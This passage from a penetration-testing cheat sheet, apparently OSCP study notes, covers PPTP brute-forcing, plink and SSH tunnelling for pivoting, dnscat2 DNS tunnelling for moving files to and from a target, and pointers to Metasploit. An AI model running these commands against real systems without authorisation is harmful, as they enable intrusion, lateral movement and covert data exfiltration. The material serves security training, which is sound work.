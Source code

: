 -   PPTP Hacking
 
    -   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:  
       
        `nmap –Pn -sV -p 1723 TARGET(S)  `
        PPTP Dictionary Attack  
       
        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`
 
-   Port Forwarding/Redirection
 
-   PuTTY Link tunnel - SSH Tunneling
 
    -   Forward remote port to local address:  
   
         `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`
 
-   SSH Pivoting
 
    -   SSH pivoting from one network to another:  
   
        `ssh -D <local host>:1010 -p 22 user@<remote host>`
 
-   DNS Tunneling
 
    -   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.
 
    -   Attacking Machine Installation:  
   
        `apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        cd dnscat2/server  
        bundle install`
 
    -   Run dnscat2:  
   
        `ruby ./dnscat2.rb  
        dnscat2> New session established: 1422  
        dnscat2> session -i 1422`
 
    -   Target Machine:  
        https://downloads.skullsecurity.org/dnscat2/
        https://github.com/lukebaggett/dnscat2-powershell/  
       
        `dnscat --host <dnscat server ip>`
 
<span id="_ujpvtdpc9i67" class="anchor"><span id="_Toc480741824" class="anchor"></span></span>The Metasploit Framework
======================================================================================================================
 
-   See [*Metasploit Unleashed
    Course*](https://www.offensive-security.com/metasploit-unleashed/)
    in the Essentials
 
-   Search for exploits using Metasploit GitHub framework source code:  
    [*https://github.com/rapid7/metasploit-framework*](https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.
 